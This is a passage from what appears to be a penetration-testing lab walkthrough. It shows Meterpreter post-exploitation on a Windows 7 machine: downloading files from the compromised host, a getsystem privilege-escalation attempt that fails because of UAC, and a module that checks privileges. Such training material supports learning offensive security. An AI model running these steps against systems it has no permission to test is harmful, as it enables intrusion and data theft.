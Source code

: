 ![meterpreter-ls.png](/img/in-post/ine/meterpreter-ls.png)


```
meterpreter > cat important.txt
meterpreter > download netdiagram.png /root/Desktop/
```

Get higher privileges on the machine. With higher privileges, we will access much more information. 

Metasploit offers some commands to automatically escalate privilegs on Windows machines. It is called `getsystm`.

```
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect.
```

It fails. It is supposed to. We are dealing with Windows 7 machine and most probably the machine has User Account Control enabled. This Windows security features does not allow us to run the command, because we lacks privileges on the machine.

Let's verify this by running a module that tell us if the UAC is enabled. The module is called `win_privs`.

```
meterpreter > run post/windows/gather/win_privs
```
